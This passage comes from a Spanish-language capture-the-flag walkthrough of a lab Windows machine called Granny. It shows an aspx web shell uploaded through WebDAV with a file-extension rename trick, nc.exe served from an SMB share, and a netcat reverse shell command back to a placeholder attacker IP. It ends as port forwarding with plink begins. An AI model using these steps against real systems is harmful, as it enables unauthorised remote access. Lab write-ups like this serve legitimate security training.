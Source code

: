 ```Python
  nt authority\system
```

listo, somos usuarios root en la maquina.

## OSCP

version OSCP, sin metasploit, es mucho mas compleja pero si uno sabe usar las herramientas como el pivoting a su favor puede hacerlo de manera facil.
Yo no tenia idea de como hacer **Port Forwarding**  desde una maquina windows y con bajos permisos. 

nos copiamos la gran **aspx_cmd.aspx** y le cambiamos la extension a txt para que el servidor lo interprete como un archivo .txt que no sea malicioso.

usando **cadaver** nos autenticamos en el servidor usando:

> cadaver es un commandline que trabaja con WebDav y se instala con apt-get
>> [LIBRERIA DE USO Y EXAMPLES](https://github.com/hpcloud/swift-webdav/blob/master/doc/Cadaver.md)

ENTONCES:
> cadaver 10.10.10.15

subimos el archivo creado .txt con un put via cadaver y le cambiamos ahi mismo el nombre con MOVE a extension .aspx

#### comunicacion con el servidor

nos montamos un servidor en samba para comunicarnos con el servidor y pasar el binario de netcat para entablar una reverse shell un poco mas segura, entonces con

```Python
impacket-smbserver smbFolder $(pwd)
```

nos montamos un servidor samba simple y debemos generar la conexion con 
```
start /b \\MYIP\smbFolder\nc.exe -e cmd MYIP (443PORT)
```

#### privesec

realizamos un ```netstat -nat``` para ver los puertos abiertos de la maquina como tal tanto local como a la escucha del servidor 

![](/TheusZero/images/post/WindowsMachines/Granny/4.png)

vemos que tenemos un puerto 445 samba abierto localmente por lo que intentaremos hacer el port forwarding para acceder al samba.

para ello primero debemos localizar el plink.exe de nuestra maquina.

```Python
locate pliink.exe
```

lo copiamos en nuestra maquina e intentamos subirlo a la maquina granny que podria ser mediante el samba como lo hicimos antes.
